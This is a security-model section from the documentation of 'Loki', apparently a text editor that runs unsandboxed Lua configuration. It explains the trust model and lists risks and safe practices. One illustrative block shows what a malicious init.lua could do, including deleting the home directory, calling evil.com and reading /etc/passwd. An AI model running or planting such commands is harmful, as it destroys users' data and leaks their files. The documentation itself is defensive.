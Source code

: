 
## Lua Security Model

### Execution Model

**Loki executes Lua scripts with the full privileges of your user account.** There is **no sandboxing** by design. This is intentional for several reasons:

1. **Simplicity**: No complex sandboxing mechanisms to maintain or bypass
2. **Functionality**: Full access to system APIs enables powerful automation
3. **Trust Model**: You control what scripts run in your editor
4. **Single-User**: Loki is not a multi-user or network service

### Configuration File Trust

Loki loads Lua configuration in this order:

1. **Local project config**: `.loki/init.lua` (current working directory)
2. **Global config**: `~/.loki/init.lua` (home directory)

**Security Implications:**

```lua
-- .loki/init.lua can do ANYTHING your user account can do:
os.execute("rm -rf ~/*")              -- Delete your home directory
io.popen("curl http://evil.com"):read()  -- Send data to remote server
require("socket").tcp():connect()     -- Open network connections
io.open("/etc/passwd"):read("*a")     -- Read sensitive files (if permissions allow)
```

### Risks

| Risk | Severity | Mitigation |
|------|----------|------------|
| Malicious `.loki/init.lua` in cloned repos | **CRITICAL** | Always review before opening projects |
| Typosquatting in module names | **HIGH** | Verify module sources |
| API key leakage in config files | **HIGH** | Use environment variables, never commit keys |
| Unintended file system operations | **MEDIUM** | Review scripts before execution |

### Safe Configuration Practices

**DO:**
```lua
-- Use environment variables for secrets
local api_key = os.getenv("OPENAI_API_KEY")

-- Validate external inputs
local function safe_insert(text)
    if type(text) ~= "string" or #text > 10000 then
        loki.status("Invalid input")
        return
    end
    loki.insert_text(text)
end

-- Use pcall for error handling
local ok, result = pcall(function()
    return require("untrusted_module")
end)
if not ok then
    loki.status("Failed to load module: " .. result)
end
```
